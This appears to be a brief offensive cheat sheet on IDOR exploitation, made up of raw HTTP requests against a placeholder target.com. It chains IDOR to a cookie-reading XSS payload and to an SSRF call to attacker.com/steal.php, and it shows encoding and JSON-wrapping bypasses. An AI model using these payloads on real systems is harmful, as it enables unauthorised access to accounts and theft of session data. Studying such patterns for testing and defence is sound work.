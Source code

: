 ## Advanced Exploitation

### Blind IDOR
```http
GET /api/user/1234/status HTTP/1.1
Host: target.com

# Compare response times or subtle differences
```

### IDOR to XSS
```http
POST /api/updateProfile HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "user_id": "5678",
  "bio": "<script>alert(document.cookie)</script>"
}
```

### IDOR to SSRF
```http
POST /api/updateAvatar HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "user_id": "5678",
  "avatar_url": "http://attacker.com/steal.php"
}
```

---

## Mitigation Bypass

### URL Encoding
```http
GET /api/user/%32%31%33%34 HTTP/1.1  # 2134
Host: target.com
```

### JSON Wrap
```http
POST /api/getUser HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "user": {
    "id": "5678"
  }
}
```
